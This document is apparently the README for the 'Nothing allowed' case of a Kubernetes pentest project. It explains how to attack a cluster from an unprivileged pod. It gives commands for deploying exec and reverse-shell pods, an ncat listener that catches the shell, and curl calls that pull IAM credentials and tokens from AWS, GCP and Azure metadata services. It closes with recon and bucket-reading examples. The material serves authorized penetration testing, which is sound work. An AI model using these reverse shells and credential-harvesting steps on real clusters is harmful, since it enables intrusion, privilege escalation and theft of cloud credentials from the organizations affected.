

# Bad Pod #8: Nothing allowed


The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
- [Bad Pod #8: Nothing allowed](#bad-pod-8-nothing-allowed)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
- [Post exploitation](#post-exploitation)
  - [Cloud metadata](#cloud-metadata)
    - [AWS](#aws)
    - [GCP](#gcp)
  - [Overly permissive service account](#overly-permissive-service-account)
  - [Anonymous-auth](#anonymous-auth)
  - [Exploits](#exploits)
  - [Traditional vulnerability hunting](#traditional-vulnerability-hunting)
- [Reference(s):](#references)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
kubectl exec -it nothing-allowed-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep nothing-allowed-exec-[RESOURCE_TYPE]      
kubectl exec -it nothing-allowed-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe nothing-allowed-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/nothing-allowed/[RESOURCE_TYPE]/nothing-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

## Cloud metadata
If the cluster is cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node or even just find a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or in both.
### AWS
**Test to see if you have access to the metadata service:**
```bash
curl http://169.254.169.254/latest/meta-data
#IMDSv2
TOKEN="$(curl --silent -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 600" http://169.254.169.254/latest/api/token)"
curl --silent -H "X-aws-ec2-metadata-token: $TOKEN" "http://169.254.169.254/latest/meta-data"
```


**See if any instance user-data is populated. Look for credentials, kubelet info, or bucket names**
```bash
curl http://169.254.169.254/latest/user-data
```

**If an IAM role is assigned to the node, you can access the node's identify token**
```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ #Lists the role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] # Get creds
```

**Launch a new pod with the aws-cli**

If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `amazon/aws-cli` image. This allows you to use `aws` as the node.
Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-awscli-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-awscli-pod
    image: amazon/aws-cli
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Verify you are the node**
```
aws sts get-caller-identity
```

**Some recon ideas**
```
yum install jq
aws eks get-token --cluster-name clusterName --region us-east-1 | jq .
aws eks describe-cluster --name clusterName
aws s3 ls

```

### GCP
Test to see if you have access to the metadata service:
```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'
126817330210-compute@developer.gserviceaccount.com/
default/
```

**See permissions assigned to default service account**
```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/
https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring
https://www.googleapis.com/auth/servicecontrol
https://www.googleapis.com/auth/service.management.readonly
https://www.googleapis.com/auth/trace.append
```

**Launch a new pod with the cloud-sdk**

If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `gcr.io/google.com/cloudsdktool/cloud-sdk:latest` image. This allows you to use `gcloud` and `gsutil` as the node.
Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-gcloud-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-gcloud-pod
    image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Example: Find buckets, list objects, and read file contents**
```
root@nothing-allowed-gcloud-pod:/# gsutil ls
gs://playground-test123/

root@nothing-allowed-gcloud-pod:/# gsutil ls gs://playground-test123
gs://playground-test123/luggage_combination.txt

root@nothing-allowed-gcloud-pod:/# gsutil cat gs://playground-test123/luggage_combination.txt
12345
```

An awesome GCP privesc reference: https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

### Azure

**Test to see if you have access to the metadata service**
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2020-10-01" | jq .
```

**If a managed identity is assigned to the node, you can access the node's identify token**
```
 curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"| jq .
 ```

**Launch a new pod with the azure-cli**
If you can query the metadata service, you can proceed with curl, but I suggest deploying another pod with the `mcr.microsoft.com/azure-cli` image. This allows you to use `az` as the node.

Something like this: 

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nothing-allowed-azurecli-pod
  labels:
    app: pentest
spec:
  containers:
  - name: nothing-allowed-azurecli-pod
    image: mcr.microsoft.com/azure-cli
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

**Login in as the instance**
```
bash-5.0# az login -i
```

**Some recon ideas**
```
az storage account list
az aks list
az identity list
az role assignment list
```

## Overly permissive service account
If the namespace’s default service account is mounted to `/var/run/secrets/kubernetes.io/serviceaccount/token` in your pod and is overly permissive, use that token to further escalate your privileges within the cluster.


**Install kubectl in your pod**
```
if [ ! -f  "/usr/local/bin/kubectl" ]; then
  apt update && apt -y install curl
  #Download and install kubectl into pod
  curl -LO "https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl"
  chmod +x ./kubectl
  mv ./kubectl /usr/local/bin/kubectl
fi
```
**See what your pod can do**
```
kubectl auth can-i --list
```


## Anonymous-auth
If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/) and there are no network policy controls preventing it, you can interact with them directly without authentication. 

## Kernel, container engine, or Kubernetes exploits
An unpatched exploit in the underlying kernel, in the container engine, or in Kubernetes can potentially allow a container escape, or access to the Kubernetes cluster without any additional permissions. i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)

## Hunt for vulnerable services 
Your pod will likely see a different view of the network services running in the cluster than you can see from the machine you used to create the pod. You can hunt for vulnerable services and applications by proxying your traffic through the pod.


# Reference(s): 

* https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
